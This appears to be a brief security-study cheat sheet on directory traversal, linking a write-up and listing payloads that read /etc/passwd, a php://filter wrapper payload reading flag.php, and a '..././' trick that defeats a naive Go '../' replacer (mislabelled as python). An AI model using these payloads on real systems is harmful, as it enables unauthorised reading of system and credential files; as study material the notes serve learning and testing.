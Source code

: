 # Directory Traversal

[Directory traversal in PDF viewing application. Leading to full database takeover](https://medium.com/@wrinnsec/directory-traversal-in-pdf-viewing-application-leading-to-full-database-takeover-376e68eadd86)

```jsx
../../../../../etc/passwd
/etc/passwd
....//....//....//....//etc/passwd
php://filter/read=convert.base64-encode/resource=flag.php
```

```python

var  PathReplacer  =  strings.NewReplacer(
	"../", "",
)
-> ..././
```